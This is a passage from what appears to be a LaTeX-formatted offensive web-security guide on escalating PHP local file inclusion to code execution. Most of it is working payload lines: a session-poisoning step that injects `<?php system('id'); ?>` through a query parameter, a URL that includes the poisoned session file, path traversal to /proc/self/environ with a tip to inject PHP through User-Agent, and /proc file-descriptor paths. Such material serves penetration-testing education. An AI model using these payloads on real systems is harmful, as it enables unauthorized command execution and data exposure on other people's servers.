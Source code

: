 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Step 1: Find Session Location}

Common session paths:

\begin{lstlisting}
/var/lib/php/sessions/sess_[SESSION_ID]
/tmp/sess_[SESSION_ID]
/var/lib/php5/sess_[SESSION_ID]
\end{lstlisting}

\subsubsection{Step 2: Poison Session}

Set session value via parameter:

\begin{lstlisting}
/index.php?language=<?php system('id'); ?>
\end{lstlisting}

\subsubsection{Step 3: Include Session File}

\begin{lstlisting}
/index.php?page=/var/lib/php/sessions/sess_abc123
\end{lstlisting}

\subsection{Environment Variable Injection}

Read /proc/self/environ:

\begin{lstlisting}
/index.php?page=../../../../proc/self/environ
\end{lstlisting}

If you can control environment variables (User-Agent, etc.), inject PHP code.

\subsection{FD (File Descriptor) Exploitation}

Linux stores process information in /proc:

\begin{lstlisting}
/proc/self/fd/[0-9]+
/proc/[PID]/fd/[0-9]+
\end{lstlisting}
\end{document}
